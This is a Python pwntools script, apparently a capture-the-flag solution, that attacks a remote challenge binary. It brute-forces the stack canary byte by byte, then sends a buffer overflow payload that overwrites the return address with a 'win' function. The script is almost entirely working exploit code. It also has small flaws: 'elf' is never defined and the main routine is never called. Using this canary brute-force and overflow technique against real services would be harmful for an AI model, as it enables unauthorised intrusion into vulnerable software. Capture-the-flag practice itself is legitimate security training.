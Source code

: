```python
from pwn import *

def connect():
    return remote("0.cloud.chals.io", 10677)
    #return process("./reader")

def get_bf(base):
    canary = b""
    guess = 0x0
    base += canary
    r = connect()

    while len(canary) < 8:
        while guess <= 0xff:
            try:
                r.recvuntil(b"some data: ", timeout=1)
                r.send(base + bytes([guess]))
                response = r.recvuntil(b"\nEnter ", timeout=1)
                if response:
                    if b"stack smashing detected" in response:
                        guess += 1
                    else:
                        print("Guessed correct byte:", format(guess, '02x'))
                        canary += bytes([guess])
                        base += bytes([guess])
                        guess = 0x0
                        break
                else:
                    r.close()
                    r = connect()
            except EOFError:
                print("EOFError encountered, reconnecting...")
                r = connect()
                break
            except Exception as e:
                print(f"Unexpected error: {e}")
                r = connect()
                break

        print("Partial canary:", canary.hex())

    padding1 = b"A" * 72
    padding2 = b"B" * 8
    #return_address = b"\x76\x12\x40\x00\x00\x00\x00\x00"
    return_address = p64(elf.symbols['win'])

    payload = padding1 + canary + padding2 + return_address # Reach canary, overwrite canary, overwrite rbp, overwrite rip with win address
    print("Payload:", payload)
    r.send(payload)

    try:
        output = r.recvall(timeout=1)
        print("Binary Output:", output.decode(errors="ignore"))
    except EOFError:
        print("EOFError on final payload send.")

    r.close()
    print("FOUND: \\x" + '\\x'.join("{:02x}".format(b) for b in canary))
    return base

canary_offset = 72
base = b"A" * canary_offset
```